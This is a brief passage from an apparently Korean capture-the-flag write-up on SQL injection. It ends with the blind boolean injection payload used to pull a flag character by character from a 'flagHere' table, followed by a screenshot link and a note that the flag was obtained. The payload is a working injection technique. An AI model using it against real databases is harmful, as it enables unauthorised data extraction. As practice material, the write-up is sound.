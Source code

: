 - **최종 플래그 값 추출:**
```sql
118 or ASCII(SUBSTRING((select flag from flagHere LIMIT ?,1),?,1))=? and 1=1
```

![플래그](/assets/screenshots/sqli-point/sqli_9_flag.png)

**이렇게 최종적으로 flag를 획득 했다.**
